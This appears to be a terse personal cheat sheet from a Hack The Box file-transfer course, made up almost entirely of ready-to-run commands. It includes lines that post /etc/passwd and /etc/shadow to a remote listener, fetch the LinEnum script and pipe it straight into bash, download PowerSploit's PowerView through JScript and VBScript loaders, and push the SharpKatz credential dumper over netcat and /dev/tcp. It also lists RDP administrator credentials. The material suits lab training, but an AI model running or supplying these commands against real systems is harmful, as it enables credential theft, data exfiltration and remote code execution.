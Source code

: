 tarnasfer file with file
```
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```

##
scp plaintext@192.168.49.128:/root/myroot.txt . 
scp test plaintext@192.168.49.128:/root/

sudo python3 -m pip install --user uploadserver
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure

python2.7 -m SimpleHTTPServer
php -S 0.0.0.0:8000
ruby -run -ehttpd . -p8000
wget 192.168.49.128:8000/filetotransfer.txt

scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/

##
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'

php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'

php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'

php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash

ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'

perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'

```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1

```
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1

python3 -m uploadserver 
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'

```
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```

##
nc / ncat / netcat

nc -l -p 8000 > SharpKatz.exe #target #target
nt -l -p 8000 --recv-only > SharpKatz.exe #host

nc -q 0 192.168.49.128 8000 < SharpKatz.exe #host
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe #host

ariafatah@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe

ariafatah@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe

ariafatah@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
ariafatah@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe

cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe

rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer

##
curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt
sudo tail -1 /var/www/uploads/SecretUploadDirectory/users.txt 

lolbas